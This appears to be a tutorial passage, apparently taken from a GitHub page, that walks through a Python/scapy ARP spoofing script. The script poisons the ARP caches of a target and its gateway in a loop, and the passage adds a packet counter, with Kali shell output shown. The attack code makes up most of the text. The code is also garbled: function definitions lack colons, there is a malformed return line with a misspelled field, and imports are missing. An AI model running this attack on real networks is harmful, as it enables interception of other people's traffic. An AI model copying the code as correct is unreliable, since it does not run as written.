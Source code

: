 ```python


def spoof (target_ip, spoof_ip)
  target_mac = get_mac(target_ip)
  packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
  scapy.send(packet)


while True:
  spoof("10.0.2.4", "10.0.2.1")
  spoof("10.0.2.1", "10.0.2.4")
  time.sleep(2)

```
These will keep sending the at the interval 2 sec, but keep sending this packets gives  us a message in the bash.

```bash
root@kali:~Python_code/arp_spoof# python arp_spoof.py
.
Sent 1 packets
.
Sent 1 packets
.

```
By this message our bash will be flooded which we won't want, see now we are printing it like a buffer but we actually want to print it dynamically which can easily be achived by the concept of loops and counter and import one more modules *sys* to flush the sytem buffer.

```python
#!/usr/bin/env python

import scapy.all as scapy

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast / arp_request
    answered_list = scapy.srp(arp_request_broadcast, timeout=1, verbose=False)[0]
    return answered_list= [0][1].hwrsc

def spoof (target_ip, spoof_ip)
  target_mac = get_mac(target_ip)
  packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
  scapy.send(packet)

sent_packets_count = 0
while True:
  spoof("10.0.2.4", "10.0.2.1")
  spoof("10.0.2.1", "10.0.2.4")
  sent_packets_count = sent_packets_count + 2
  print("\r[+] Packet sent: " + str(sent_packets_count)),
  sys.stdout.flush()
  time.sleep(2)
```
>\r here plays the key role instead of printing in straight line it restarts from the beginning and keep increasing the counter.
